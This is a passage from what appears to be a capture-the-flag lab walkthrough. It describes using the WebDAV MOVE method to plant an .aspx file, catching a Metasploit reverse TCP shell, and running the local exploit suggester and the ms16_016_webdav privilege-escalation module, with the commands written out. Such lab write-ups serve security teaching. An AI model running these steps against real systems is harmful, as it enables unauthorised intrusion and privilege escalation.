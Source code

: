 *In the example we want to use the MOVE command and set a Destination*

# to RCE
Next, craft a new MOVE request to set a destination of “ippsec.aspx” to circumvent the filter.

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302624510_image.png)

*creates 204 No Content but does show that it is functional.*
checking if file exists: 

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302675876_image.png)

*looks like the MOVE command worked and created the “.aspx”*

## metasploit response

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302751038_image.png)

*have successfuly captured a reverse tcp shell.*
Interact with shell to figure out user level
    sessions -i 1
    shell
    whoami

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557303076871_image.png)

*background with ctrl+z*

## enumerate windows
First, search for suggester
    search suggester

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302866620_image.png)

    use post/multi/recon/local_exploit_suggester
    set SESSION 1
    run

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557303379060_image.png)

*attempt the exploit of the ms16-016 webdav*
    use exploit/windows/local/ms16_016_webdav
    show options
    set SESSION 1
    set LHOST tun0
    run

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557303592177_image.png)

*we see the TCP handler on a localip that why he does tun0 twice*
